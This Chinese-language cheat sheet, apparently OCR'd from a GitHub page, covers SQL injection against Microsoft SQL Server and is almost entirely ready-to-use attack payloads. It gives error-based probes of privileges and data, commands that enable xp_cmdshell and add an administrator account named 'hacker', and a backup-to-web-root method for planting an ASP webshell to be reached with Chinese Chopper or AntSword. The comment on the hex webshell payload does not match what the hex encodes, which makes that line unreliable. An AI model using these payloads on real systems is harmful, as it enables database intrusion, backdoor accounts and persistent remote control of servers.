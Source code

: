 ### MSSQL数据库注入

*   **特点:** 权限体系复杂（`sysadmin`, `db_owner`, `public`）。拥有强大的存储过程（如 `xp_cmdshell`），高权限下可执行系统命令。
*   **系统对象:** `sysobjects` (存储对象信息), `syscolumns` (存储列信息)。
*   **权限判断:**
    *   `and 1=(select is_srvrolemember('sysadmin')) --` (判断是否为sysadmin)
    *   `and 1=(select is_member('db_owner')) --` (判断是否为db_owner)
    *   `and 1=(select is_member('public')) --` (判断是否为public)
*   **信息获取:**
    *   版本: `and @@version > 0 --` (通过报错)
    *   当前用户: `and user > 0 --` (通过报错)
    *   当前库名: `and db_name() > 0 --` 或 `and 1=convert(int, db_name()) --`
    *   多行查询支持: `;declare @d int --`
    *   子查询支持: `and (select count(1) from sysobjects) >= 0 --`
*   **SA (sysadmin) 权限利用:**
    *   检查 `xp_cmdshell` 是否存在/启用: `and 1=(select count(*) from master.dbo.sysobjects where name = 'xp_cmdshell') --`
    *   启用 `xp_cmdshell` (如果被禁用):
        ```sql
        ;exec sp_configure 'show advanced options', 1;reconfigure;exec sp_configure 'xp_cmdshell', 1;reconfigure;--
        ```
    *   执行系统命令:
        ```sql
        ;exec master..xp_cmdshell 'net user hacker pass /add';--
        ;exec master..xp_cmdshell 'net localgroup administrators hacker /add';--
        ```
    *   其他常用存储过程: `xp_regread`, `xp_regwrite`, `xp_dirtree`, `xp_servicecontrol` 等。
*   **DB_OWNER 权限利用 (获取WebShell):**
    *   **思路:** 通常无法直接执行 `xp_cmdshell`。利用数据库备份功能将包含WebShell代码的表备份为Web脚本文件（如 .asp, .aspx）。
    *   **步骤:**
        1.  **查找Web目录:**
            *   利用报错信息、搜索引擎。
            *   利用 `xp_dirtree` 存储过程列目录 (可能需要 `public` 权限)。
                ```sql
                -- 创建临时表存目录结构
                drop table if exists dirtree; create table dirtree (id int identity(1,1), L1_subdirectory nvarchar(512), L2_depth int, L3_file int);
                -- 列出 C 盘目录
                insert into dirtree (L1_subdirectory, L2_depth, L3_file) exec master..xp_dirtree 'C:', 1, 1;
                -- 逐行读取目录 (需调整id)
                and (select L1_subdirectory from dirtree where id=1) > 0 --
                ```
        2.  **创建包含WebShell的表:**
            ```sql
            create table webshell_tmp (code image);
            insert into webshell_tmp (code) values (0x3C256578656375746528726571756573742822636D64222929253E); -- ASPX一句话木马 <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%> 的Hex编码
            ```
        3.  **差异备份/日志备份:** (需要数据库之前有完整备份，且恢复模式为Full或Bulk-logged)
            ```sql
            -- 方法一: 日志备份 (需先改恢复模式, 事后改回)
            alter database [数据库名] set recovery full; --
            backup log [数据库名] to disk = 'C:\inetpub\wwwroot\shell.asp' with init; -- 先清空日志
            backup log [数据库名] to disk = 'C:\inetpub\wwwroot\shell.asp'; -- 备份含木马的日志
            alter database [数据库名] set recovery simple; -- 改回简单模式
            -- 方法二: 差异备份 (需先有完整备份)
            backup database [数据库名] to disk='C:\inetpub\wwwroot\shell.asp' with differential, format;
            ```
        4.  连接WebShell (如使用中国菜刀、AntSword)。
*   **PUBLIC 权限利用:**
    *   只能进行信息探测，猜解表名、列名、数据。
    *   获取库名: `and db_name()=0 --` (报错)